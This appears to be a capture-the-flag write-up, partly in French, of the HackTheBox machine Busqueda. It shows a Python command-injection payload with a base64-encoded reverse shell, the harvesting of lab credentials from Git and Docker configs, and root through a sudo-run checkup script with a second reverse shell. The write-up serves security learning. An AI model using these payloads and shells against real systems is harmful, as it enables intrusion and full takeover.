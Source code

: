 ```yaml
---
title: HTB | Busqueda
description: Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a Python module. By leveraging this vulnerability, we gain user-level access to the machine. To escalate privileges to root, we discover credentials within a Git config file, allowing us to log into a local Gitea service. Additionally, we uncover that a system checkup script can be executed with root privileges by a specific user. By utilizing this script, we enumerate Docker containers that reveal credentials for the administrator user's Gitea account. Further analysis of the system checkup script's source code in a Git repository reveals a means to exploit a relative path reference, granting us Remote Code Execution (RCE) with root privileges.
slug: busqueda-htb
date: 2024-12-11 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Busqueda cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Busqueda</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.11.208</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
nmap -sC -sV -An -p- 10.10.11.208
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
```

## Foothold

### Python Command injection
```bash
## exploit
',__import__('os').system('echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTAvOTAwMSAwPiYx | base64 -d | bash -i')) # junky comment

$ nc -lnvp 9001
svc@busqueda:~$ cat user.txt 
afb3.....29e5
```

### Gitea : svc password
On peut voir que l'application a un .git et est donc un repo git. On recupère le lien vers le serveur gitea.searcher.htb. Dans le fichier de config de .git on trouve des credentials pour le nouveau site web découvert qui tourne sur le port 3000

```bash
svc@busqueda:/var/www/app$ git log
commit 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 (HEAD -> main, origin/main)

Author: administrator <administrator@gitea.searcher.htb> # <---------------- "gitea.searcher.htb"

Date:   Sun Dec 25 12:14:21 2022 +0000

    Initial commit
svc@busqueda:/var/www/app/$ cd .git

## credentials
svc@busqueda:/var/www/app/.git$ cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```
En vérité j'ai trouvé les creds comme ça:
```bash
 grep -rni "gitea"
app/.git/logs/HEAD:1:0000000000000000000000000000000000000000 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 administrator <administrator@gitea.searcher.htb> 1671970461 +0000	commit (initial): Initial commit
app/.git/logs/refs/heads/main:1:0000000000000000000000000000000000000000 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 administrator <administrator@gitea.searcher.htb> 1671970461 +0000	commit (initial): Initial commit
app/.git/logs/refs/remotes/origin/main:1:0000000000000000000000000000000000000000 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 administrator <administrator@gitea.searcher.htb> 1671970461 +0000	update by push

## ICI
app/.git/config:7:	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```
User:
`cody`:`jh1usoih2bkjaspwe92`

On essaye de se connecter en ssh avec cody, puis avec svc et le password de cody, et ca fonctionne !
```bash
ssh svc@10.10.11.208
```


## Root Privilege Escalation
```bash
$ sudo -l
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```
On peut voir que lorsqu'on execute system-checkup on peut voir des containers docker, et envoyer des commande spour obtenir
plus d'informations
```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py aaaa
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   23 months ago   Up 7 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   23 months ago   Up 7 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config.Env}}' mysql_db
["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"]
```
On trouve le mot de passe root dans les variables d'environnement du docker mysql.

Ce mot de passe peut etre utilisé pour le compte `administrator` sur le site web gitea.searcher.htb !

On peut voir un nouveau repo git avec le code complet du fameux script system-checkup.py

```bash
svc@busqueda:~$ vim full-checkup.sh
##!/bin/bash
cat /root/root.txt

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
52e6.....04a7

[+] Done !
```

On peut aussi utiliser un reverse shell avec ce code pour `full-checkup.sh`:
```bash
##!/bin/bash
sh -i >& /dev/tcp/10.10.16.10/9001 0>&1
```